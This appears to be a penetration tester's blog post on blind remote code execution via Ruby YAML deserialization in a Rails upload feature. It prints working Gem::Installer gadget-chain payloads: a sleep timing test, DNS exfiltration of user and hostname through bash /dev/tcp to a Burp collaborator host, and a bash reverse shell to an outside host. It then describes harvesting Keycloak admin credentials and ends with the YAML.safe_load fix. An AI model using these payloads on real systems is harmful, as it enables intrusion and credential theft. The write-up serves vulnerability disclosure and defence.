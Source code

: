 ```yaml
---
layout: post
title:  "Blind Remote Code Execution through YAML Deserialization"
date:   2021-06-09 12:00:00
categories: node
---
```


During an application security assessment of a Ruby on Rails project, I identified upload functionality that allowed users to submit text, CSV, and YAML files. The YAML option stood out due to its potential as a deserialization vulnerability.  

After several uploads, I found that the process validated file contents before uploading them to Azure blob storage. YAML files starting with ```---!ruby/object:BadValue``` triggered a fatal status, while other invalid YAML files returned an error status. This fatal status was the only indicator that the upload process might be vulnerable.

<figure>
  <img src="/assets/2021/blind-rce-status-indicator.png">
  <figcaption>Figure 1 – Fatal status on poc2.yml</figcaption>
</figure>  

Several researchers previously identified gadget chains in Ruby that could lead to code execution, as detailed in the GitHub Gist ["Ruby YAML Exploits."](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

I first tested the Gem::Requirement chain using nslookup and curl commands to a Burp collaborator but received no DNS lookup. After this chain failed, I tested the Gem::Installer chain with the same commands, but again no DNS lookup occurred.

After several attempts, I decided to try the sleep command for 10 minutes with the Gem::Installer chain.

```yaml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve
```

Uploading the YAML file caused the status icon to display a loading animation for 10 minutes, indicating that the sleep command executed successfully.

<figure>
  <img src="/assets/2021/yaml-deserial-rce-sleep-1.png">
  <figcaption>Figure 2 – Start of the upload</figcaption>
</figure>

<figure>
  <img src="/assets/2021/yaml-deserial-rce-sleep-2.png">
  <figcaption>Figure 3 – Nine minutes after the file was uploaded</figcaption>
</figure> 

After many failed attempts, I finally achieved success! While the sleep command doesn't demonstrate significant impact, it confirmed that code execution was possible. Although it could be used for data exfiltration through a Bash if condition (see below), this would be time-consuming and tedious.
```bash
if [ -f /etc/passwd ]; then sleep 5; fi
```  

After further consideration, I tried the bash -c command, echoing to ```/dev/tcp/:remote-server/443```, hoping for a DNS lookup. To my surprise, I received a DNS lookup and was able to exfiltrate the user and server hostname.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.wkkib01k9lsnq9qm2pogo10tmksagz.burpcollaborator.net/443'"
         method_id: :resolve
```

<figure>
  <img src="/assets/2021/yaml-rce.png">
  <figcaption>Figure 4 – Exfiltrated user and server hostname through DNS lookup</figcaption>
</figure> 

Upon reviewing the server hostnames, I noticed they changed each time the same file was re-uploaded. It seemed there wasn’t much impact, as an Azure Serverless function or worker was likely being spun up. To assess potential impact, I needed to confirm access to environment variables for sensitive information.

I then decided to attempt a reverse shell on port 443, as it’s less likely to be filtered outbound, using the following YAML file.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/reverseshell.example.com/443 0>&1'"
         method_id: :resolve
```

Success! I gained a reverse shell and ran printenv, which revealed sensitive information, including Keycloak admin credentials, Redis, and Azure DB details.

<figure>
  <img src="/assets/2021/reverse-shell-env-vars.png">
  <figcaption>Figure 5 – Listed server environment variables</figcaption>
</figure> 

The server was not an Azure function, but a Kubernetes pod, likely running on Azure Kubernetes. Using the Keycloak admin credentials, I logged into Keycloak's master realm as the admin user through the following URL: ```https://redacted.com/auth/realms/master/protocol/openid-connect/auth?client_id=account-console&redirect_uri=https%3A%2F%2Fredacted.com%2Fauth%2Frealms%2Fmaster%2Faccount%2F&state=:stateUUID&response_mode=fragment&response_type=code&scope=openid&nonce=:nonceUUID&code_challenge=:challengeValue&code_challenge_method=S256```

The state UUID, nonce UUID, and code challenge values were obtained from the web application's realm.

Given the high impact, the report was sent immediately, with remediation suggesting replacing Ruby's YAML.load() with YAML.safe_load(), as YAML.load() was likely the cause of the vulnerability.

References:  
https://ruby-doc.org/stdlib-2.6.1/libdoc/psych/rdoc/Psych.html  
https://www.elttam.com/blog/ruby-deserialization/  
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
